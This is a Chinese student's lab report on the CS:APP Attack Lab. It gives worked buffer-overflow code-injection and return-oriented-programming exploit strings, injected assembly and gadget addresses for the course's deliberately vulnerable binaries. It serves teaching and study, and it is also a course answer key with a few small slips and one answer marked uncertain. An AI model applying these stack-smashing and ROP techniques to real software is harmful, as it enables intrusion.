





# Lab3 Attack Lab 实验报告

## 一、实验目的

1.通过完成attacklab中的各个关卡，了解栈溢出的几种攻击，以及如何写出更安全的代码；

2.加深对X86-64栈结构和调用函数时传参机制的了解；

3.进一步加深对GDB等调试工具的掌握。

## 二、实验环境

1.操作环境：`Ubuntu24.04.1 LTS`

2.运用到的调试与反汇编工具：`GDB`、`Objdump` 

3.AttackLab所包含的文件：

> ctarget: An executable program vulnerable to code-injection attacks.  
rtarget: An executable program vulnerable to return-oriented-programming attacks.  
cookie.txt: An 8-digit hex code that you will use as a unique identifier in your attacks.    
farm.c: The source code of your target’s “gadget farm,” which you will use in generating return-oriented programming attacks.    
hex2raw: A utility to generate attack strings.  
README.txt: A file describing the contents of the directory.    

## 三、各阶段关卡的解决与思路

### **1. CTARGET : Code Injection Attacks**

#### **1.1 LEVEL 1**

目标：让`CTARGET`在`getbuf`执行其返回语句时执行`touch1`的代码，而不是返回到`test`。

在给的[attacklab.pdf](.attacklab.pdf)中已经告诉出`getbuf`的源代码形式：

```c
1 unsigned getbuf()
2 {
3   char buf[BUFFER_SIZE];
4   Gets(buf);
5   return 1;
6 }
```

其中`BUFFER_SIZE`就是我需要知道的栈定义大小。通过`objdump -d ctarget > ctarget.txt`得到`ctarget`的反编译代码，在函数`getbuf`中得到：

```s
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
```

说明栈有`0x28`即`40`个字节；然后找到函数`touch1`的地址：`00000000004017c0 <touch1>`，因此只需要输入40个字节使栈溢出后再输入该地址即可覆盖`getbuf`返回地址，使其返回时调用函数`touch1`。所以输入40个任意字节，然后用小端法存入地址`c0 17 40 00 00 00 00 00`即可。

答案：`answer1.txt`

```text
36 36 36 36 36 36 36 36
36 36 36 36 36 36 36 36
36 36 36 36 36 36 36 36
36 36 36 36 36 36 36 36
36 36 36 36 36 36 36 36
c0 17 40 00 00 00 00 00
```

然后用`hex2raw`将其转为二进制文件：`./hex2raw < answer1.txt > answer1_raw.txt`，用`./ctarget -q -i answer1_raw.txt`运行查看结果：(或者直接用`./hex2raw < answer1.txt | ./ctarget -q`运行)(一定要加`-q`!!!)



> P.S. 未解决的疑问  
1.解压elearning下载的文件时不能使用`Windows`自带的解压工具解压，而必须用命令行解压: `tar -xvf attacklab.tar`，否则运行`./ctarget -q`永远都会报错`FAILED: Initialization error: Running on an illegal host [Beta]`  
2.这里实在不知道为什么 PASS: 后面接的是如图这样的内容

#### **1.2 LEVEL 2**

目标：让`CTARGET`执行`touch2`的代码，而不是返回到`test`。在这种情况下，必须使`touch2`看起来像是将我的`cookie`作为参数传递给了它。

此题相当于比第一题多加入传值，通过注入代码实现：

```s
movq $0x59b997fa,%rdi
pushq $0x004017ec
retq
```

其中，第一行将`cookie.txt`中的值`0x59b997fa`传入寄存器`%rdi`中；`attacklab.pdf`给出了函数`touch2`的C语言表示，该函数的第一个参数在寄存器`%rdi`中传递。

第二行将调用`touch2`的地址压入栈；第三行返回时即可调用`touch2`并且实现传参。

将代码保存为`intotouch.s`文件，使用`gcc -c intotouch.s`编译，再用`objdump -d intotouch.o > intotouch.d`反汇编得到十六进制表示的机器代码：

```s
0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret
```

接下来，使用`gdb`寻找栈顶地址：

```s
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
```

`%rsp`的地址即为栈顶。所以在`0x4017ac`处设置断点`break *0x4017ac`，运行到断点处`run -q`，打印`%rsp`的值`print $rsp`，得到结果：`$1 = (void *) 0x5561dc78`。所以在输入的结尾用小端法存入地址`78 dc 61 55 00 00 00 00`

答案：`answer2.txt`

```text
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
66 66 66 66 66 66 66 66
78 dc 61 55 00 00 00 00
```

用`./hex2raw < answer2.txt | ./ctarget -q`运行查看结果：



#### **1.3 LEVEL 3**

目标：让`CTARGET`执行`touch3`的代码，而不是返回到`test`。使`touch3`看起来像是将我的`cookie`作为参数传递给了它。

注入代码和第二题类似，但是后续操作会将`getbuf`栈中的`40`个字节覆盖了，所以将字符串改为存储在调用函数前的栈中。通过打断点`break getbuf`，打印`%rsp`的值得到`$2 = (void *) 0x5561dca0`，说明其栈顶地址是`0x5561dca0`。所以把字符串存入紧跟着跳转的地址`0x5561dca8`

所以注入代码：

```s
mov $0x5561dca8,%rdi
pushq $0x4018fa
retq
```

反编译后的结果:

```s
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	pushq  $0x4018fa
   c:	c3                   	retq   
```

填充至`40`字节，结尾存入跳转地址。再将`cookie`转化为十六进制的字符串存入跳转地址后面，根据`ASCII`码，`cookie`的值`0x59b997fa`就是`35 39 62 39 39 37 66 61`

答案：`answer3.txt`

```text
48 c7 c7 a8 dc 61 55 
68 fa 18 40 00 
c3 
91 91 91
91 91 91 91 91 91 91 91
91 91 91 91 91 91 91 91
91 91 91 91 91 91 91 91
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
```

用`./hex2raw < answer3.txt | ./ctarget -q`运行查看结果：



### **2. RTARGET : Return-Oriented Programming**

`RTARGET`增加了以下两种技术以阻止攻击：

- 它使用随机化，使得栈位置在一次运行与另一次运行之间不同。这使得无法确定你注入的代码位于何处。

- 它将持有栈的内存部分标记为不可执行，因此即使你可以将程序计数器设置为你注入代码的开头，程序也会因段错误而失败。

解决办法：面向返回编程（ROP）：调用程序自身的现有代码指令完成攻击。

#### **2.1 LEVEL 2**

目标：重复`1.2 LEVEL 2`的攻击，但在程序`RTARGET`上使用来自我的`farm.c`的`gadgets`(翻译为“小工具”?)。

> P.S. 疑惑：参考文档`attacklab.pdf`中似乎要求在`farm.c`中寻找合适的`gadgets`，可我发现反编译出的`farm.s`中的函数与`rtarget.d`的函数对应不上啊艹并且构造地址时应该使用`rtarget.d`的地址所以试验半天之后决定直接在`rtarget.d`中搜索寻找`gadgets`

> 续：查阅资料说是  
不加`-Og`直接编译`farm.c`（默认`-O0`）再反编译出来的字节码和直接反编译`rtarget.c`得到的的不一样······  
~~但我看不懂~~

从`start_farm`到`mid_farm`搜索`popq`，根据参考文档[ROP table.pdf](.ROP%20table.pdf)，找到以下序列：

```s
00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	ret
```

从地址`0x4019a7+0x4=0x4019ab`开始，序列`58 90 c3`表示`popq %rax nop ret`；

为将刚刚压入栈的值传入`touch2`的第一个参数`%rdi`中，需要指令`movq %rax,%rdi`，对应序列`48 89 c7`，该地址为`0x4019a0+0x2=0x4019a2`：

```s
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
```

所以目标构造的`gadgets`：`popq %rax(cookie) net ret > movq $rax,%rdi ret > touch2`，最后记得小端法存入地址。

答案：`answer4.txt`

```text
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

用`./hex2raw < answer4.txt | ./ctarget -q`运行查看结果：



#### **2.2 LEVEL 3**

目标：调用函数`touch3`并传递一个指向我的`cookie`的字符串表示的指针

这道题不是要求，但还是尝试了一下。只用参考文档上的序列，遇到了三十二位`%esi`如何操作得到`%rsi`的困难。所以我通过查阅资料，发现`add $0x37, %al`可以将传入的字符串存在距离栈顶`0x37`即`55`字节处。用到的`gadgets`与大致对应的代码如下：

```s
0000000000401a03 <addval_190>:
  401a03:	8d 87 41 48 89 e0    	lea    -0x1f76b7bf(%rdi),%eax
  401a09:	c3                   	ret
# movq %rsp,%rax ret

00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret
# add $0x37,%al
# 表示将传入的字符串存在距离栈顶0x37字节处

00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret
# movq %rax,%rdi ret
```

最后把`cookie`放在末尾，在前面填充`55-3*8=31`个字节

所以可能的答案是：`answer5.txt`

```text
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
44 44 44 44 44 44 44 44
06 1a 40 00 00 00 00 00
d8 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31
35 39 62 39 39 37 66 61
```

用`./hex2raw < answer5.txt | ./ctarget -q`运行查看结果：



## 四、实验总结

通过这次`AttackLab`，我对汇编、栈都有了更深的了解，掌握了缓冲区的一些攻击方法，以及ROP攻击的原理与实践。

在实验过程中遇到了种种困难，我善用搜索，并解决了其中的大部分。剩下一下遗留的问题在对应位置的`P.S.`中给出。

## 五、参考的资料

> [CS:APP配套实验3：Attack Lab笔记](https://zhuanlan.zhihu.com/p/28476993)  
[更适合北大宝宝体质的 ICS 辅助学习资料](https://github.com/zhuozhiyongde/Introduction-to-Computer-System-2023Fall-PKU/blob/main/03-Attack-Lab/README.md)  
[CSAPP-Labs-Attack Lab 笔记](https://github.com/Exely/CSAPP-Labs/blob/master/notes/attack.md)  
[Computer Systems: A Programmer's Perspective, 3/E (CS:APP3e)](http://csapp.cs.cmu.edu/)
